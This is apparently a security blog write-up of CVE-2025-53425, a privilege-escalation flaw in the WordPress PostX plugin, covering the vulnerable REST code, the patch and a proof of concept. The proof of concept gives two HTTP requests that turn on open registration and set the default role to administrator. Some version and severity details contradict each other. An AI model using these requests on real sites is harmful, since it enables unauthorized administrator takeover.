

<!--more-->

## CVE & Basic Info

An **Incorrect Privilege Assignment** vulnerability in **PostX, Inc. PostX PostX-lite** allows **Privilege Escalation**. This issue affects **PostX** from **n/a** to **<= 4.1.2**.

* **CVE ID**: [CVE-2025-53425](https://www.cve.org/CVERecord?id=CVE-2025-53425)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: <= 4.1.35
* **Patched Versions**: 4.1.36
* **CVSS severity**: Medium (7.2)
* **Required Privilege**: Editor
* **Product**: [WordPress PostX Plugin](https://wordpress.org/plugins/ultimate-post/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **PostX**:

  * `4.1.35` – **vulnerable**
  * `4.1.36` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers a REST API:

```php {title="Styles.php v4.1.35" hl_lines=[7] data-open=true}
register_rest_route(
    'ultp/v1',
    '/postx_presets/',
    array(
        array(
            'methods'  => 'POST',
            'callback' => array($this, 'postx_presets_callback'),
            'permission_callback' => function () {
                return current_user_can('edit_posts');
            },
            'args' => array()
        )
    )
);
```

With this configuration, the API is exposed as:

```
POST /wp-json/ultp/v1/postx_presets/
```

When a request is sent to this endpoint using the POST method, WordPress calls `postx_presets_callback()`. However, before this function is executed, the request must pass the permission check via `current_user_can('edit_posts')`.

The `edit_posts` capability is granted to users with the **Contributor** role and above. However, the vulnerability disclosure specifies a required role of **Editor**. Due to this discrepancy, it is necessary to further analyze the implementation of the `postx_presets_callback()` function to determine the root cause and how the vulnerability can be exploited.

```php {title="Styles.php v4.1.35" hl_lines=[5,6,9,10] data-open=true}
public function postx_presets_callback($server) {
    $post = $server->get_params();
    $type = isset($post['type']) ? $post['type'] : '';
    $key = isset($post['key']) ? $post['key'] : '';
    $data = isset($post['data']) ? $post['data'] : '';

    if ( $type ) {
        if ( $type == 'set' ) {
            if ( current_user_can('edit_others_posts') ) {
                update_option($key, $data);
            }
            return ['success' => true];
        } else {
            return ['success' => true, 'data' => get_option($key, [])];
        }
    } else {
        return ['success' => false];
    }
}
```

The callback function retrieves the `type`, `key`, and `data` parameters from the request. When `type` is equal to `'set'`, the function calls `update_option()` to update the option corresponding to `$key`, provided the user has the `edit_others_posts` capability (which is only available to the **Editor** role and above). In other cases, the function returns the option value via `get_option()`.

This clearly explains why the vulnerability is disclosed with a required privilege of **Editor**.

A common exploitation scenario for a **Privilege Escalation** vulnerability via the `update_option()` function is:

* Setting `users_can_register = 1` to allow user registration
* Setting `default_role = administrator` so that newly created accounts are granted Administrator privileges

However, since this is a REST API using the **POST** method, when it is called from a browser, the request must include a nonce. For REST requests that modify data (POST / PUT / DELETE), WordPress requires a nonce to prevent CSRF attacks. If the request does not include a nonce, WordPress will reject it with a `rest_forbidden` error; if the nonce is invalid, the request will be blocked with a `rest_cookie_invalid_nonce` error.

To obtain the REST API nonce, it is necessary to log in to the Admin Dashboard and access `wpApiSettings.nonce` via the **browser console** while creating a post, as this nonce is only injected by WordPress into the page when the user is properly authenticated. This is a special case, as it is injected specifically on the post creation page.

The **v4.1.36** patch tightened access control by changing the `permission_callback` as follows:

```php {title="Styles.php v4.1.36" hl_lines=[] data-open=true}
'permission_callback' => function () {
    return current_user_can('manage_options'); // Admins only
},
```

With this change, only users with the `manage_options` capability (role **Administrator**) can access the endpoint, effectively preventing exploitation of the **Privilege Escalation** vulnerability by lower-privileged roles.

## Flow


flowchart TD
A["Editor (Authenticated User)"]
--> B["Access Admin / Create Post Page"]

B --> C["WordPress injects wpApiSettings.nonce"]
C --> D["Editor obtains REST API nonce"]

D --> E["POST /wp-json/ultp/v1/postx_presets/"]
E --> F["X-WP-Nonce validation"]

F -- Invalid --> G["Request rejected"]
F -- Valid --> H["permission_callback: current_user_can('edit_posts')"]

H -- No --> I["Access denied"]
H -- Yes --> J["postx_presets_callback()"]

J --> K{"type == 'set'?"}
K -- No --> L["get_option()"]
K -- Yes --> M{"current_user_can('edit_others_posts')?"}

M -- No --> N["Return success without update"]
M -- Yes --> O["update_option(key, data)"]

O --> P["Modify sensitive wp_options"]
P --> Q["Privilege escalation via default_role / users_can_register"]


## Proof of Concept (PoC)

1. Use an Editor account to create a post
2. Retrieve `wpApiSettings.nonce` from the **browser console** to obtain the nonce
3. Send a request using the obtained nonce:

* **Request 1**:
```http
POST /wp-json/ultp/v1/postx_presets/ HTTP/1.1
Host: localhost
Cookie: editor_cookie 
X-WP-Nonce: valid_nonce

type=set&key=users_can_register&data=1
```

* **Request 2**:
```http
POST /wp-json/ultp/v1/postx_presets/ HTTP/1.1
Host: localhost
Cookie: editor_cookie 
X-WP-Nonce: valid_nonce

type=set&key=default_role&data=administrator
```



4. Create a new user and log in

## Conclusion

The CVE-2025-53425 vulnerability stems from an **inconsistent combination of permission checks at the REST API level and the logic implemented within the callback**. Although the REST endpoint only requires the `edit_posts` capability, the most dangerous operation (`update_option()`) is guarded by `edit_others_posts`, allowing an **Editor** to modify sensitive entries in the `wp_options` table. When combined with a valid REST API nonce, an Editor can abuse this endpoint to alter critical options, resulting in **Privilege Escalation**. The patch in version `4.1.36` fully mitigates this issue by restricting endpoint access to users with the `manage_options` capability.

## Key Takeaways

* `permission_callback` must **accurately reflect the sensitivity of the operations performed in the callback**
* `update_option()` is a **highly dangerous function** if not strictly permission-restricted
* REST API nonces **only mitigate CSRF**, they do not replace proper authorization checks
* Editors **should not** be allowed to modify global options that affect the entire system
* The most effective fix is to **enforce strict permissions at the REST endpoint level**, rather than performing scattered checks within the callback

## References

[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress PostX Plugin <= 4.1.35 is vulnerable to a medium priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/ultimate-post/vulnerability/wordpress-postx-plugin-4-1-35-privilege-escalation-vulnerability)
